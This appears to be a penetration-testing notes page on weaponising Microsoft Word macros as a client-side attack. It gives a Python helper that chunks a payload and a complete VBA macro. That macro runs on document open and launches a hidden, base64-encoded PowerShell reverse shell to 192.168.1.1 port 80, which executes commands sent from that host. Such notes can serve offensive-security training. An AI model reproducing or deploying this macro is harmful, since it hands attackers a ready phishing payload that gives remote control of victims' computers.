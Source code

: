 ```yaml
---
description: DOC file with using MACRO.
---
```


# Office Macro

Microsoft Word macro is one of best-known client-side attack vector.

Choose VIEW ribbon and selecting Macros option. We type name for the macro and in the MACROS in drop-down menu, select the name of document, then the macro will be add. When we click create, a simple macro framework will be add into our document. We have to save the document as either .docm or the older .doc format. They support embedded macros, .docx format does not.

https://www.revshells.com/ - Reverse - Powershell #4 -Base64 Encoded - 192.168.1.1 - 80

We have to edit the payload for can work. We change related part of str variable.&#x20;

```
#!/usr/bin/python

payload = "powershell.exe -nop -w hidden -e JABjAGwAaQBlAG4Ad..."

n=50

for i in range(0, len(payload), n):
	print "Str = Str + " + '"' + paylaod[i:i+n] + '"'
```

```
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    Str = Str + "powershell.exe -nop -w hidden -e JABjAGwAaQBlAG4Ad"
    Str = Str + "AAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdAB"
    Str = Str + "lAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDA"
    Str = Str + "GwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADEALgAxACI"
    Str = Str + "ALAA4ADAAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAa"
    Str = Str + "QBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB"
    Str = Str + "5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2A"
    Str = Str + "DUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGk"
    Str = Str + "AIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAe"
    Str = Str + "QB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgB"
    Str = Str + "nAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhA"
    Str = Str + "CAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHA"
    Str = Str + "AZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQ"
    Str = Str + "QBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB"
    Str = Str + "0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApA"
    Str = Str + "DsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQ"
    Str = Str + "AZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAc"
    Str = Str + "gBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQA"
    Str = Str + "gACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgA"
    Str = Str + "CsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACI"
    Str = Str + "AOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAd"
    Str = Str + "AAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQA"
    Str = Str + "uAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrA"
    Str = Str + "DIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHM"
    Str = Str + "AZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZ"
    Str = Str + "QAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgB"
    Str = Str + "sAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvA"
    Str = Str + "HMAZQAoACkA"
    CreateObject("Wscript.Shell").Run Str
End Sub
```
